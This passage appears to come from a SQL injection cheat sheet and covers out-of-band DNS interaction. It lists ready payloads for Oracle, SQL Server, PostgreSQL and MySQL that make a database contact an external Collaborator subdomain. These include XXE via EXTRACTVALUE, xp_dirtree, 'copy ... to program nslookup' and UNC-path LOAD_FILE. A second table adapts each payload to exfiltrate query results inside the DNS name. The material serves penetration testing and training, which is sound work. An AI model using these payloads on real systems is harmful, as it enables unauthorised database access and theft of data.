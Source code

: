 You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

|   |   |
|---|---|
|Oracle|([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br><br>`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br><br>The following technique works on fully patched Oracle installations, but requires elevated privileges:<br><br>`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`|
|Microsoft|`exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`|
|PostgreSQL|`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`|
|MySQL|The following techniques work on Windows only:<br><br>`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  <br>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

|   |   |
|---|---|
|Oracle|`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|(SELECT YOUR-QUERY-HERE)\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`|
|Microsoft|`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`|
|PostgreSQL|`create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '\|p\|'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();`|
|MySQL|The following technique works on Windows only:  <br>`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|

